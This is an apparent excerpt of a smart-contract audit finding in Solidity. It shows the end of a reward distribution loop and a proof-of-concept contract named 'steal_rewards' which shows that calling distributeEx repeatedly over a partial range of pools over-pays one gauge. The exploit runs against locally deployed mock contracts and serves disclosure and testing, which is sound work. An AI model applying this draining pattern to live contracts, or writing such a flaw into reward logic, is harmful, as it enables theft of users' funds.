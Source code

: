 ```
        if (_balance > 0 && totalWeight > 0) {
            uint256 _totalWeight = totalWeight;
            for (uint256 x = start; x < finish; x++) {
                uint256 _reward = (_balance * weights[_pools[x]]) /
                    _totalWeight;
                if (_reward > 0) {
                    address _gauge = gauges[_pools[x]];
                    IERC20(token).approve(_gauge, 0); // first set to 0, this helps reset some non-standard tokens
                    IERC20(token).approve(_gauge, _reward);
                    IGauge(_gauge).notifyRewardAmount(token, _reward); // can return false, will simply not distribute tokens
                }
            }
        }
    }
}

contract DistributorExPOC {

    function steal_rewards() external {
        Zero zero = new Zero();
        DistributorEx d = new DistributorEx();
        d.setup();
        zero.transfer(address(d), 10e18);
        
        //d.distributeEx(address(zero), 0, 2);
        //require(zero.balanceOf(d.gauges(address(0x1111))) == 5e18);
        //require(zero.balanceOf(d.gauges(address(0x1112))) == 5e18);
        d.distributeEx(address(zero), 0, 1);
        d.distributeEx(address(zero), 0, 1);
        require(zero.balanceOf(d.gauges(address(0x1111))) == 7.5e18);
    }
}
```